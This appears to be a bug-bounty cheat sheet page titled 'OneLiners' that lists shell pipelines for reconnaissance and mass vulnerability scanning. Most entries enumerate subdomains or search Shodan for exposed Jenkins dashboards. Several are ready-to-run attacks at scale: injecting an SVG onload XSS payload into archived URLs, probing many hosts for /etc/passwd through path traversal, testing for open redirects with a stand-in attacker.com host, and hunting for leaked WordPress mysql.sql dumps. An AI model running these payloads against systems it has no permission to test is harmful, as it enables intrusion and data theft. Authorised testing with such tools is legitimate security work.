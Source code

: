 ```yaml
---
title: OneLiners
icon: fas fa-info-circle
order: 3
---
```


### Mass XSS via wayback machine<br>
+ ``gau http://target.com | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``<br>
+ ``gau google.com | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | bhedak '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | egrep -v 'Not'``


### Mass IPs listing Via Shodan<br>
+ ```shodan search --limit 1000 'http.title:"Dashboard [Jenkins]"' | awk  '{print $1,":"$2}' | sed 's/ //' | httpx -silent | tee /root/Desktop/shodan.txt```


### Subdomain from crt.sh<br>
+ ```curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | tee /root/Desktop/crt.txt```

### wordpress mysql <br>
+ ```sublist3r -d target.com | httpx -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -ports 80,443,8080,8443```

### Get all urls from sitemap
+ ``curl -s https://target.com/sitemap.xml | xmllint --format - | grep -e 'loc' | sed -r 's|</?loc>||g'``

### Waybackurls Validators
+ ``waybackurls http://bugcrowd.com | grep "url" | xargs -n 1 curl -s -o /dev/null -w "%{http_code} > %{url_effective}\n" | sort``

### Extract all endpoints from js file
+ ``cat files.txt | grep -aoP "(?<=(\"|\'|`))\/[a-zA-Z0-9?&=\/-#.](?=(\"|\'|`))" | sort -u | tee output.txt``

### OneLiner  http://rapiddns.io Curl for Doamin Recon :
+ ``curl -s "https://rapiddns.io/subdomain/target.com?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | cut -d '/' -f3  | sed 's/?t=cname//g' | sed 's/#result//g' | sed 's/\.$//' | sort -u``

### Check Mass CNAME records
+ ``cat live-domains.txt | while read domains;do dig $domains;done | grep CNAME``

### Mass LFI
+ ``cat hosts | httpx -path ///////../../../etc/passwd -mc 200 -match-string 'root:x:'``

### Open Redirect
+ ``export LHOST="attacker.com"; gau target.com | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'``

### Find JavaScript Files
+ ``assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done``

### Get Subdomain from https://riddler.io
+ ``curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain domain from web archive
+ ``curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u
``
### Get subdomain from certspotter
+ ``curl -s "https://certspotter.com/api/v1/issuances?domain=HOST&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u ``

### Get subdomain from securitytrails
+ ``curl -s "https://securitytrails.com/list/apex_domain/HOST" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | grep ".HOST" | sort -u``

### Scan juicy ports only
+ ``nmap -sV -p 21,22,80,25,465,587,1617,3000,4848,5985,8022,8080,8282,8484,\ 8585,9200,49153,49154,49202,49203 -v target.com``
